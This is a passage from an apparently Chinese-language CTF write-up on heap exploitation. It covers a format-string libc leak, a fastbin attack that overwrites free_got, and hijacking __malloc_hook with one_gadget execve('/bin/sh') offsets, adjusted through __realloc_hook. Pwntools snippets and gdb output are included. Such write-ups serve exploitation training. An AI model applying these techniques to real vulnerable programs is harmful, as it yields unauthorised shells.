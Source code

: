 `%10$x 对应 0x7fff5408f000 , 泄露出__libc_start_main+240 应该用%13$p`

```
new(0x50,"a"*6+p64(0)+p64(printf_plt)[:7])
de(0)
libc.address = int(r(14),16) - libc.sym["__libc_start_main"]-240
```

#### 3. 构造覆盖malloc_hook

构造方法依然是fastbin attack，泄露libc过程中会把free_got覆盖，此后就不能用free了，因此这两步要同步进行。
同时准备好两个fastbin attack 的环境如下,再执行后续leak libc 和覆盖malloc_hook的操作
```
0x60 : 19 -> 18 -> 19
0x70 : 19 -> 18 -> 19
```

常见的方法是覆盖onegadget到malloc_hook,但是onegadget的使用是有条件的，比如
```
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
如果4个条件都不满足，我们还可以用realloc_hook 给自己续一秒
realloc_hook的位置和malloc_hook相邻
```
gdb-peda$ p &__realloc_hook
$3 = (void *(**)(void *, size_t, const void *)) 0x7f93d701eb08 <__realloc_hook>
gdb-peda$ p &__malloc_hook
$4 = (void *(**)(size_t, const void *)) 0x7f93d701eb10 <__malloc_hook>
```
可以构造`padding+p64(one)+p64(realloc+x) `通过调整realloc的地址，来找出满足onegadget的条件。

先用realloc的地址查看情况，以0x4526a 为例 需要 ` [rsp+0x30] == NULL` 可是查看rsp+0x30并不满足条件
`rsp+0x30 : 0x7ffec63d63b8 --> 0x100000000`

查看周围
![](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/HuXiang/realloc.png)
